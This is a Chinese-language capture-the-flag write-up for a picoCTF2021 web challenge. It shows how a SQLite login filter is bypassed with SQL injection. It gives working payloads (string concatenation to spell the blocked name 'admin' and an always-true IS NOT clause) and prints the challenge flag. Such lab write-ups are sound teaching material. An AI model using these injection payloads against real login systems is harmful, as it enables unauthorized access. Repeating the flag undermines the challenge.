


## 題目資訊

- 來源：picoCTF2021
- 分類：Web Exploitation
- 難度：中

## 解題流程

### 探勘

打開網站，會看到一個帳號密碼的登入介面


打開 Filter 則是有以下說明：

```text
Filters: or and true false union like = > < ; -- /* */ admin
```

### 嘗試破解

由於 admin 不能打，先試試 root

過濾器沒有過濾到 `IS` 跟 `NOT` 所以用 `a' IS NOT 'b` 強制為 true



送出後，會出現完整 SQL 指令，同時也說 `not admin`

恩...好，看來是有繞過，但一定要 admin

那 admin 就用字串拼接的，由於提示說是 sqlite，就只能用 `|` 結合字串

Payload:

```text
Username: ad'||'min
Password: a' IS NOT 'b
```



登入成功，回到 filter.php，出現 PHP 原始碼，而 FLAG 就在最底下


## FLAG

> picoCTF{0n3_m0r3_t1m3_b55c7a5682db6cb0192b28772d4f4131}
